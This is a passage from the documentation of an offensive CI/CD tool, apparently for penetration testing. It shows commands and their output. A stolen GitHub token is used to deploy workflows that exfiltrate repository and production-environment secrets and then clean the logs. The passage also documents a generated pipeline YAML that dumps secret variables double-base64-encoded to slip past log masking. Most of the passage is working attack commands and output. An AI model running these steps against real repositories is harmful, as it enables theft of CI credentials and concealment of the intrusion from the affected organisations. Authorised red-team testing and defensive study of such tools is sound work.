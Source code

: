 Then proceed to the exfiltration:
```sh
$ nord-stream.py github --token "$GHP" --org org --repo repo
[+] "org/repo"
[*] No branch protection rule found on "dev_remote_ea5Eu/test/v1" branch
[*] Getting secrets from repo: "org/repo"
[*] Getting workflow output
[!] Workflow not finished, sleeping for 15s
[+] Workflow has successfully terminated.
[+] Secrets:
secret_SUPER_SECRET=value for super secret
secret_REPO_SECRET=repository secret

[*] Getting secrets from environment: "PROD" (org/repo)
[*] Getting workflow output
[!] Workflow not finished, sleeping for 15s
[+] Workflow has successfully terminated.
[+] Secrets:
secret_PROD_SECRET=Value only accessible from prod environment

[*] Cleaning logs.
[*] Check output: /home/hugov/Documents/pentest/RD/CICD/tools/nord-stream/nord-stream/nord-stream-logs/github
```

### Shared arguments

Some arguments are shared between [GitHub](#github), [Azure DevOps](#azure-devops) and [GitLab](#gitlab) here are some examples.

#### Describe token

The `--describe-token` option can be used to display general information about your token:

```bash
$ nord-stream.py github --token "$PAT" --describe-token
[*] Token information:
        - Login: CICD
        - IsAdmin: False
        - Id: 1337
        - Bio: None

```

#### Build YAML

The `--build-yaml` option can be used to create a pipeline file without deploying it. It retrieves the various secret names to build the associated pipeline, which can be used to add custom steps:

```bash
$ nord-stream.py github --token "$PAT" --org Synacktiv --repo repo --env PROD --build-yaml custom.yml
[+] YAML file:
name: GitHub Actions
'on': push
jobs:
  init:
    runs-on: ubuntu-latest
    steps:
    - run: env -0 | awk -v RS='\0' '/^secret_/ {print $0}' | base64 -w0 | base64 -w0
      name: command
      env:
        secret_PROD_SECRET: ${{secrets.PROD_SECRET}}
    environment: PROD

```

